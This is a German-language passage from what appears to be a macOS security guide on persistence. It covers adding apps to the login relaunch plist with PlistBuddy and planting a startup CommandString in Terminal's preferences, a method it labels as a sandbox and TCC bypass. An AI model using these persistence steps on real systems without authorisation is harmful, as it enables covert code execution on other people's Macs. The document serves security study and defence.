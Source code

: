 #### Beschreibung & Ausnutzung

Alle Anwendungen, die wiedereröffnet werden sollen, befinden sich in der plist `~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist`

Um die wiedereröffnenden Anwendungen dazu zu bringen, Ihre eigene zu starten, müssen Sie einfach **Ihre App zur Liste hinzufügen**.

Die UUID kann durch Auflisten dieses Verzeichnisses oder mit `ioreg -rd1 -c IOPlatformExpertDevice | awk -F'"' '/IOPlatformUUID/{print $4}'` gefunden werden.

Um die Anwendungen zu überprüfen, die wiedereröffnet werden, können Sie Folgendes tun:
```bash
defaults -currentHost read com.apple.loginwindow TALAppsToRelaunchAtLogin
#or
plutil -p ~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist
```
Um **eine Anwendung zu dieser Liste hinzuzufügen**, können Sie Folgendes verwenden:
```bash
# Adding iTerm2
/usr/libexec/PlistBuddy -c "Add :TALAppsToRelaunchAtLogin: dict" \
-c "Set :TALAppsToRelaunchAtLogin:$:BackgroundState 2" \
-c "Set :TALAppsToRelaunchAtLogin:$:BundleID com.googlecode.iterm2" \
-c "Set :TALAppsToRelaunchAtLogin:$:Hide 0" \
-c "Set :TALAppsToRelaunchAtLogin:$:Path /Applications/iTerm.app" \
~/Library/Preferences/ByHost/com.apple.loginwindow.<UUID>.plist
```
### Terminal-Einstellungen

* Nützlich, um Sandbox zu umgehen: [✅](https://emojipedia.org/check-mark-button)
* TCC-Umgehung: [✅](https://emojipedia.org/check-mark-button)
* Terminal verwendet die FDA-Berechtigungen des Benutzers, der es verwendet

#### Standort

* **`~/Library/Preferences/com.apple.Terminal.plist`**
* **Auslöser**: Terminal öffnen

#### Beschreibung & Ausnutzung

In **`~/Library/Preferences`** werden die Einstellungen des Benutzers in den Anwendungen gespeichert. Einige dieser Einstellungen können eine Konfiguration enthalten, um **andere Anwendungen/Skripte auszuführen**.

Zum Beispiel kann das Terminal einen Befehl beim Start ausführen:

<figure><img src="../.gitbook/assets/image (1148).png" alt="" width="495"><figcaption></figcaption></figure>

Diese Konfiguration wird in der Datei **`~/Library/Preferences/com.apple.Terminal.plist`** wie folgt reflektiert:
```bash
[...]
"Window Settings" => {
"Basic" => {
"CommandString" => "touch /tmp/terminal_pwn"
"Font" => {length = 267, bytes = 0x62706c69 73743030 d4010203 04050607 ... 00000000 000000cf }
"FontAntialias" => 1
"FontWidthSpacing" => 1.004032258064516
"name" => "Basic"
"ProfileCurrentVersion" => 2.07
"RunCommandAsShell" => 0
"type" => "Window Settings"
}
[...]
```
Also, wenn die plist der Einstellungen des Terminals im System überschrieben werden könnte, kann die **`open`**-Funktionalität verwendet werden, um **das Terminal zu öffnen und dieser Befehl wird ausgeführt**.